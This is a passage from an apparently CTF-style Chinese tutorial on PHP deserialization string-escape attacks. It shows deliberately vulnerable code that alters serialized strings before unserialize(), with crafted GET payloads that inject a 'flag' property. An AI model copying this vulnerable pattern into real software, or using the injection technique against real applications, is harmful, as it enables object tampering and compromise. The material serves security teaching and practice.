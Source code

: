 *   **替换修改后导致序列化字符串变长**

    ```php
    <?php
    function filter($str){
        return str_replace('b', 'bb', $str);
    }
    class A{
        public $name='a';
        public $pass='1';
    }
    $a=new A();
    $a->name = $_GET["name"];
    $b=filter(serialize($a)); //对序列化的值进行修改
    $c=unserialize($b);
    if($c->pass === "flag")
    echo "success";
    else
    echo "fail";
    ?>
    //bbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:4:"flag";}}
    ```

    分析：  

    `O:1:"A":2:{s:4:"name";s:52:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:4:"flag";}}";s:4:"pass";s:1:"1";}`

    利用其替换修改后导致序列化字符串变长，从而将变长的字符当作name的值  

    使后面构造的`;s:4:"pass";s:4:"flag";`作为序列化的值使用  

    而`}`与前面的`{`闭合将之后的值舍去

*   **替换之后导致序列化字符串变短**

    和变长差不多，同样是构造；利用变短，将后续的值覆盖；使构造的值逃逸；

    来一题

    ```php
    <?php
    function filter($str){
        return str_replace('hh', 'h', $str);
    }
    class A{
        public $a='1';
        public $b='2';
        public $c='3';
    }
    $a1=new A();
    echo(serialize($a1));
    $a1->a = $_GET["a"];
    $a1->c = $_GET["c"];
    $b1=filter(serialize($a1)); //对序列化的值进行修改
    $c1=unserialize($b1);
    echo($b1);
    var_dump($c1);
    if($c1->b === "flag")
    echo "success";
    else
    echo "fail";
    ?>
    //a=hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh
    //c=";s:1:"b";s:4:"flag";s:1:"c";s:1:"3
    ```
